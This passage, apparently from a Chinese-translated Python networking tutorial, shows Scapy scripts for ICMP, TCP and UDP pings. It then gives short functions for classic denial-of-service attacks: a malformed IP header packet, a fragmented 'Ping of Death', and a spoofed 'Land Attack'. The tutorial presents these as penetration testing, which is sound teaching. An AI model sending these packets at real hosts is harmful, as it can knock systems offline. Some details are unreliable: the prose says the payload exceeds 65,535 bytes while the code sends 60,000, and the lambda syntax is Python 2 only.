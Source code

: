 ```py
def answer_summary(answer_list):
 # example of lambda with pretty print
    answer_list.summary(lambda(s, r): r.sprintf("%IP.src% is alive"))
```

如果你想知道为什么在前面的`answer_summary()`函数中有一个 lambda，那是一种创建小型匿名函数的方法。基本上，它是一个没有名字的函数。关于它的更多信息可以在[`docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions`](https://docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions)找到。

然后我们可以在一个脚本中执行网络上的三种 ping 类型：

```py
def main():
    print("** ICMP Ping **")
    ans = icmp_ping("10.0.0.13-14")
    answer_summary(ans)
    print("** TCP Ping **")
    ans = tcp_ping("10.0.0.13", 22)
    answer_summary(ans)
    print("** UDP Ping **")
    ans = udp_ping("10.0.0.13-14")
    answer_summary(ans)

if __name__ == "__main__":
    main()
```

到目前为止，希望你会同意我的观点，通过拥有构建自己的数据包的能力，你可以控制你想要运行的操作和测试的类型。

# 常见攻击

在这个例子中，让我们看看如何构造我们的数据包来进行一些经典攻击，比如*Ping of Death* ([`en.wikipedia.org/wiki/Ping_of_death`](https://en.wikipedia.org/wiki/Ping_of_death)) 和 *Land Attack* ([`en.wikipedia.org/wiki/Denial-of-service_attack`](https://en.wikipedia.org/wiki/Denial-of-service_attack))。这可能是您以前必须使用类似的商业软件付费的网络渗透测试。使用 Scapy，您可以在保持完全控制的同时进行测试，并在将来添加更多测试。

第一次攻击基本上发送了一个带有虚假 IP 头的目标主机，例如长度为 2 和 IP 版本 3：

```py
def malformed_packet_attack(host):
    send(IP(dst=host, ihl=2, version=3)/ICMP()) 
```

`ping_of_death_attack`由常规的 ICMP 数据包组成，其负载大于 65,535 字节：

```py
def ping_of_death_attack(host):
    # https://en.wikipedia.org/wiki/Ping_of_death
    send(fragment(IP(dst=host)/ICMP()/("X"*60000)))
```

`land_attack`想要将客户端响应重定向回客户端本身，并耗尽主机的资源：

```py
  def land_attack(host):
      # https://en.wikipedia.org/wiki/Denial-of-service_attack
      send(IP(src=host, dst=host)/TCP(sport=135,dport=135))
```
